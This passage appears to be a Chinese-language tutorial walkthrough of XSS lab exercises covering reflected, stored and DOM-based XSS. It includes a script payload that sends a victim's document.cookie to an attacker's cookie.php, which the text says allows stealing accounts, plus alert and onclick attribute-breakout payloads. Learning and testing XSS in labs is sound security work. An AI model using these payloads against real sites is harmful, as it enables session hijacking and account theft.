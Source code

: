 随便登录一个账户

![image-20211208215237047](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202112201245190.png)

进去输入XSS语句，这里其实可以输入，发送链接让别人点击即可获取到别人的cookie，利用cookie就可以盗取别人的账户

```js
<script>document.location='http://127.0.0.1/cookie.php（php文件）?cookie='%2b document.cookie（将cookie存储在黑客服务器文件）</script>
```

这里测试就输入一个弹窗

```
<script>alert('test');</script>
```

![image-20211208215518731](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202112201246350.png)

### 存储型XXS

存储型XSS主要在评论区，留言板这些地方出现比较多

![image-20211208215714313](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202112201246668.png)

每次有人点击这个留言板，都会触发XSS弹窗

### DOM型XSS

DOM可以理解为访问HTML的标准接口，DOM里面会把我们的HTML分成一个DOM树

我们可以以这棵树为入口，通过DOM的某些方法对树进行操作，比如**对标签的添加、改变和删除**等等。

**DOM相当于在前端提供了一个 通过JS去对HTML进行操作 的接口，观察JS的代码**

![image-20211208220233385](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202112201246141.png)

在此的js代码，通过getElementById获取到了标签ID为text的内容赋值给str，然后把str的内容通过字符串拼接的方式写到了a标签的href属性中，a标签会写到id为dom的div标签中

```
通过value方式将text的值赋值为str，也就是框里面的值，然后通过innerHTML将标签内的值取出来，比如<label id="lb1">this is a label</label>，取出来的值就是this is a label。所以结合前面的'做一个闭合，像<script>这种有前后标签闭合的就不太方便用了，用提示里面的onclick来构造，' onclick=alert('xss')>就可以了。
```

![image-20211208220319039](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202112201246488.png)

### DOM型XSS-X

观察JS源码

![image-20211208220612034](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202112201246810.png)

`window.location.search`该属性获取页面 URL 地址，window.location 对象所包含的属性如下：　

- location.hostname 返回 web 主机的域名
- location.pathname 返回当前页面的路径和文件名
- location.port 返回 web 主机的端口 （80 或 443）
- location.protocol 返回所使用的 web 协议（http: 或 https:）
- location.search 从问号开始的URL查询部分
